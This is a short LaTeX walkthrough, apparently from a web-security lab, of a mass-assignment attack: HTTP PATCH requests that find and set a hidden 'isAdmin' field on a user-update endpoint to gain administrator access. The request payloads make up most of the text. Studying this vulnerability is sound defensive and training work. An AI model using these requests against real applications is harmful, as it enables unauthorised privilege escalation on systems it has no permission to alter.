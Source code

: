 \documentclass[11pt]{article}
\begin{document}
\subsection{Identifying the Vulnerability}

\begin{enumerate}
  \item Send a \texttt{PATCH} or \texttt{PUT} to an update endpoint and note the fields it accepts:
\begin{httpbox}
PATCH /api/users/ HTTP/1.1
Content-Type: application/json

{"username": "wiener", "email": "wiener@example.com"}
\end{httpbox}

  \item Fetch the full user object via a \texttt{GET} to find hidden fields:
\begin{httpbox}
GET /api/users/123 HTTP/1.1

Response:
{
    "id": 123,
    "name": "John Doe",
    "email": "john@example.com",
    "isAdmin": "false"
}
\end{httpbox}

  \item The \texttt{isAdmin} field is in the object but not in the PATCH --- it may still be bindable.
\end{enumerate}

\subsection{Exploiting Mass Assignment}

\begin{enumerate}
  \item Inject the hidden field with an \textbf{invalid} value first to confirm it's processed:
\begin{httpbox}
PATCH /api/users/ HTTP/1.1

{"username": "wiener", "email": "wiener@example.com", "isAdmin": "foo"}
\end{httpbox}
  If the app behaves differently (error vs.\ normal), the field is being parsed.

  \item Inject with a \textbf{valid} value to exploit:
\begin{httpbox}
PATCH /api/users/ HTTP/1.1

{"username": "wiener", "email": "wiener@example.com", "isAdmin": true}
\end{httpbox}

  \item Browse the application as \texttt{wiener} --- verify admin panel access.
\end{enumerate}
\end{document}
